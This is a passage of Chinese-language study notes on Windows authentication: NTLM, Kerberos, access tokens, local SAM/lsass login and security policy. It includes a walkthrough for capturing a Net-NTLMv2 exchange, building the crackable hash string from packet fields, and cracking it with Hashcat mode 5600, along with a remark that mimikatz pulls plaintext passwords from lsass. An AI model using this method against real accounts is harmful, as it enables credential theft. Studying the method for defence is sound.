- 服务端接收到客户端发送过来的     TYPE 1 消息，会读取其中的内容，并从中选择出自己所能接受的服务内容，加密等级，安全服务等等。然后传入 NTLM SSP，得到     NTLM_CHALLENGE 消息（被称为 **TYPE 2 消息，**Challenge     挑战消息），并将此TYPE 2消息发回给客户端。此TYPE 2消息中包含了一个由服务端生成的16位随机值，此随机值被称为     Challenge，服务器将该Challenge保存起来

- 客户端收到服务端返回的     TYPE 2 消息， 读取出服务端所支持的内容，并取出其中的随机值Challenge，**用缓存的服务器端密码的NTLM-Hash对其进行加密（加密算法是什么？不知道）**，并与用户名、Challenge等一起组合得到 **Net-NTLMHash**，最后将Net NTLM-Hash封装到 NTLM_AUTH     消息中（被称为 **TYPE 3 消息，** Authenticate认证消息），发往服务端

- 服务器在收到     Type3的消息之后，用自己的密码的 NTLM-Hash 对 Challenge 进行加密，并比较自己计算出的 Net NTLM-Hash     认证消息和客户端发送的认证消息是否匹配。如果匹配，则证明客户端掌握了正确的密码，认证成功，否则认证失败。

- **wiresharek抓包Net-NTLMHash，使用Hashcat爆破：**

    - **认证失败的数据包**
        - 

    - **认证成功的数据包**
        - 

    - 查看第二个数据包，获得Challenge，为：77effc5381037df8，   这将会是被加密的明文。
        - 

    - 查看第三个数据包，获得客户端加密后的Challenge，为：ba3237c701d9f397   
        - 

    - **Net-NTLM Hash格式为：username::domain:challenge:HMAC-MD5:blob**

        - username（要访问服务器的用户名）：xie

        - domain（访问者主机名或者ip）：WIN7

        - challenge（数据包2中服务器返回的challenge值）：77effc5381037df8

        - HMAC-MD5（数据包3中的NTProofStr）:     b6b777ced0128e3f587fe08b98853e13

        - blob（blob对应数据为NTLMv2 Response去掉NTProofStr的后半部分）：

            - ```
                0101000000000000f27fa3a7aa61d501ba3237c701d9f3970000000002000e00570049004e00320030003000380001000e00570049004e00320030003000380004000e00570049004e00320030003000380003000e00570049004e00320030003000380007000800f27fa3a7aa61d50106000400020000000800300030000000000000000100000000200000ca0ee75c65eaa5367775b826f949798912fa871a19e5d17f9b49587485a8e6620a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e00310030002e0031003500000000000000000000000000
                ```

    - 然后，用Hashcat爆破，传送门——> [使用Hashcat破解NTLMv2](https://blog.csdn.net/qq_36119192/article/details/100105816#使用Hashcat破解NTLMv2) 

        ```bash
        (base) root in /mnt/c/Users/lambo λ hashcat --help | grep 5600
           5600 | NetNTLMv2                                           | Network Protocol
        ```

**NTLM认证方式(域环境中，Net-NTLM Hash)：**

- 

- 这个相比于工作组多了一个由域控来判定用户密码正不正确。

### **Kerberos认证**

- **Kerberos认证**用于域环境中，它是一种基于票据（Ticket）的认证方式。他的整个认证过程涉及到三方：客户端、服务端和KDC（Key     Distribution Center）。在Windows域环境中，由DC(域控)来作为KDC。
- **在域环境中，默认先使用kerberos进行认证，当使用kerberos认证出现错误时使用NTLM认证。**

- **也在域里面一起讲**

在域环境下，可以使用 Kerberos 或者     NTLM认证来实现对用户的身份认证。在很多企业的内部网络中(基本都是域环境)，都是使用Kerberos认证或NTLM认证，在Windows     2000以后，在域环境下，Kerberos是默认的认证方式。**因为由于NTLM认证存在安全风险，所以用Kerberos认证的较多**。Kerberos较之NTLM更高效、更安全，同时认证过程也相对复杂。

在非域环境下，一般都是使用NTLM进行认证。SMB服务和很多Web程序都是使用NTLM来实现对用户的身份认证。

**Access Token(访问令牌)**

- 是用来描述进程或线程安全上下文的对象，**令牌所包含的信息是与该用户账户相关的进程或线程的身份和权限信息**。当用户登陆时，系统生成一个Access     Token，然后以该用户身份运行的的所有进程都拥有该令牌的一个拷贝。**这也就解释了A用户创建一个进程而B用户没有该进程的权限。**

### 本地认证:

- 本地登录时，用户的密码存储在 `c:\windows\System32\config\SAM`这个文件里。当用户输入密码进行本地认证的过程中，所有的操作都是在本地进行的。
- 他其实就是将**用户输入的密码转换为NTLM  Hash**，然后与**SAM中的NTLM Hash**进行比较。当用户注销、重启、锁屏后，操作系统会让winlogon显示登录界面，也就是输入框。当**winlogon.exe接收输入后，将密码交给lsass进程，这个进程中会存一份明文密码（也就是为什么mimikatz能搞到用户的明文密码），将明文密码加密成NTLM Hash，对SAM数据库比较认证**。(winlogon.exe即Windows Logon Process，是Windows     NT用户登陆程序，用于管理用户登录和退出。lsass进程用于微软Windows系统的安全机制。它用于本地安全和登陆策略。)

## 4.本地安全策略

就是设置一些安全策略。安全策略是影响计算机安全性的安全设置的组合

- 配置帐户策略
- 配置审核策略
- 配置用户权限
- 配置安全选项

win+R然后输入**`Secpol.msc`就可以打开本地安全策略面板：**

- **密码策略：**
    - 密码策略强制服务器上的用户帐户设置的密码满足安全要求。防止用户将自己的密码设置的过短或太简单。

    - 密码必须符合复杂性要求：
        - 密码长度最小值
        - 密码最长使用期限
        - 密码最短使用期限
        - 强制密码历史
        - 用可还原的加密来储存密码
- **账户策略：**
    - 账户锁定阈值

    - 账户锁定时间

    - 复位账户锁定计数器


。。。。。。。之类的，蓝队的时候可能有用。

# Linux系统安全